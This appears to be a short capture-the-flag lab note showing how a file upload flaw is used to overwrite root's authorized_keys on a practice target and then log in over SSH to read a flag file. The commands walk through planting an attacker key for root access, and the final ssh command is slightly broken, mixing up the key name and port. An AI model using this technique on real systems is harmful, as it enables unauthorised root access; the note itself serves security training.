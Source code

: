1. Follow the steps above on VM #1 to overwrite the **authorized_keys** file with the file upload mechanism. Connect to the system via SSH on port 2222 and find the flag in **/root/flag.txt**.

```bash
# Generate our keys
ssh-keygen
# using name: fileup

# Copy the public key in authorized_keys
cat fileup.pub > authorized_keys

# Upload the file, but change where it will be stored in the inputs
```
![[Pasted image 20250313002108.png]]

```bash
# Clean previous SSH sessions remnants
rm ~/.ssh/known_hosts

# Connect using our private key
ssh -i dt_key -p fileup root@mountaindesserts.com
# Accept (type yes)
```

![[Pasted image 20250313002837.png]]